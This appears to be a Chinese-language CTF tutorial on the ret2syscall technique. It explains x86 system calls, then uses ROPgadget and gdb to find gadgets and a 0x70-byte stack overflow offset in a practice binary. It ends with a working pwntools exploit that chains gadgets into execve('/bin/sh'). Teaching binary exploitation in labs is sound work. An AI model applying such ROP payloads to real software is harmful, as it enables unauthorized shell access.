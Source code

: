 ```yaml
---
title: ret2syscall
---
```


## 原理

ret2syscall 即控制程序执行系统调用来获取 shell
什么是系统调用？
- 操作系统提供给用户的编程接口
- 是提供访问操作系统所管理的底层硬件的接口
- 本质上是一些内核函数代码，以规范的方式驱动硬件
- x86 通过 int 0x80 指令进行系统调用、amd64 通过 syscall 指令进行系统调用
mov eax, 0xb
mov ebx, [“/bin/sh”] 
mov ecx, 0
mov edx, 0
int 0x80
=> execve("/bin/sh",NULL,NULL)
![1.jpg](/images/ret2syscall/1.jpg)
## 例题
链接：https://pan.baidu.com/s/19ymHlZZmVGsJHFmmlwww0w 提取码：r4el 
首先checksec 看一下保护机制

![2.jpg](/images/ret2syscall/2.jpg)

接着使用ida打开分析

![3.jpg](/images/ret2syscall/3.jpg)

gets函数存在明显的栈溢出，但是这次没有后门函数，NX防护也打开了，那么就要换一种套路了，通过系统调用拿到shell
我们需要控制eax，ebx，ecx，edx的值，可以使用ROPgadget这个工具帮我们找到所需的代码片段。
首先寻找控制 eax 的 gadgets
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'

![4.jpg](/images/ret2syscall/4.jpg)

然后寻找控制ebx的
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx'，其中红色框框圈出来的能让我们控制余下的寄存器，就不用再接着找了。

![5.jpg](/images/ret2syscall/5.jpg)

接着寻找程序中有没有int 80指令，ROPgadget --binary ret2syscall --only 'int'

![6.jpg](/images/ret2syscall/6.jpg)

最后我们还需要找到一个字符串/bin/sh，ROPgadget --binary ret2syscall --string '/bin/sh'

![7.jpg](/images/ret2syscall/7.jpg)

这样我们就可以构造0xb的系统调用，具体要溢出多少字节可以使用gdb动态调试获取，
gdb ret2syscall
b main（在main函数下断点）
r（让程序跑起来）
n（单步执行）
一直走到gets函数输入字符串AAAAAAAA

![8.jpg](/images/ret2syscall/8.jpg)

然后使用stack 35命令查看栈内容

![9.jpg](/images/ret2syscall/9.jpg)

b8 - 4c = 6c，再加上ebp的4个字节，总共需要填充0x70个字节到返回地址
最后成功利用的堆栈图如下

![10.jpg](/images/ret2syscall/10.png)

exp：

```python
from pwn import *

sh = process('./ret2syscall')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_80 = 0x08049421
bin_sh = 0x080be408

payload = flat(['A' * 0x70,  pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, bin_sh, int_80])

sh.sendline(payload)

sh.interactive()
```